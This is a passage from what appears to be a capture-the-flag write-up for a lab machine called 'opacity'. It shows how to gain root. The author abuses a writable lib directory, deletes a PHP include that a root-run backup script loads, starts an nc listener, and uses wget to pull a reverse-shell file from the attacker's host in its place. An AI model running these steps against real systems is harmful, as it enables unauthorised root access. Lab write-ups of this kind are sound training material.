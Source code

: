 It is a backup script that includes another script at `lib/backup.inc.php`. Let's see if we can modify this file.

```
sysadmin@opacity:~/scripts$ ls -la
total 16
drwxr-xr-x 3 root     root     4096 Jul  8  2022 .
drwxr-xr-x 6 sysadmin sysadmin 4096 Feb 22 08:16 ..
drwxr-xr-x 2 sysadmin root     4096 Jul 26  2022 lib
-rw-r----- 1 root     sysadmin  519 Jul  8  2022 script.php
```

`backup.inc.php` is owned by root so we are not allowed to change its contents.

However, as user `sysadmin`, we have execution rights on the `lib` directory. This allows us to remove `backup.inc.php` and add another file with the same name, but with a different content. We will add a script that spawns a terminal. Since `script.php` includes `backup.inc.php` and runs with root privileges, it will ultimately spawn a root terminal.

```
sysadmin@opacity:~/scripts$ cd lib
sysadmin@opacity:~/scripts/lib$ ls -la
total 132
drwxr-xr-x 2 sysadmin root  4096 Jul 26  2022 .
drwxr-xr-x 3 root     root  4096 Jul  8  2022 ..
-rw-r--r-- 1 root     root  9458 Jul 26  2022 application.php
-rw-r--r-- 1 root     root   967 Jul  6  2022 backup.inc.php
-rw-r--r-- 1 root     root 24514 Jul 26  2022 bio2rdfapi.php
-rw-r--r-- 1 root     root 11222 Jul 26  2022 biopax2bio2rdf.php
-rw-r--r-- 1 root     root  7595 Jul 26  2022 dataresource.php
-rw-r--r-- 1 root     root  4828 Jul 26  2022 dataset.php
-rw-r--r-- 1 root     root  3243 Jul 26  2022 fileapi.php
-rw-r--r-- 1 root     root  1325 Jul 26  2022 owlapi.php
-rw-r--r-- 1 root     root  1465 Jul 26  2022 phplib.php
-rw-r--r-- 1 root     root 10548 Jul 26  2022 rdfapi.php
-rw-r--r-- 1 root     root 16469 Jul 26  2022 registry.php
-rw-r--r-- 1 root     root  6862 Jul 26  2022 utils.php
-rwxr-xr-x 1 root     root  3921 Jul 26  2022 xmlapi.php
```

Let's begin by removing the original file.

```
sysadmin@opacity:~/scripts/lib$ rm -rf backup.inc.php
```

On your machine, set up a listener on the port you have configured on `shell.php`.

```
$ nc -lnvp 7777               
```

On the target machine, download `shell.php` and name it as `backup.inc.php`.

```
sysadmin@opacity:~/scripts/lib$ wget http://<your_IP>/shell.php -O backup.inc.php
--2023-04-09 02:07:25--  http://<your_IP>/shell.php
Connecting to <your_IP>:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5493 (5.4K) [application/octet-stream]
Saving to: ‘backup.inc.php’

backup.inc.php                          100%[============================================================================>]   5.36K  --.-KB/s    in 0s      

2023-04-09 02:07:25 (19.6 MB/s) - ‘backup.inc.php’ saved [5493/5493]
```
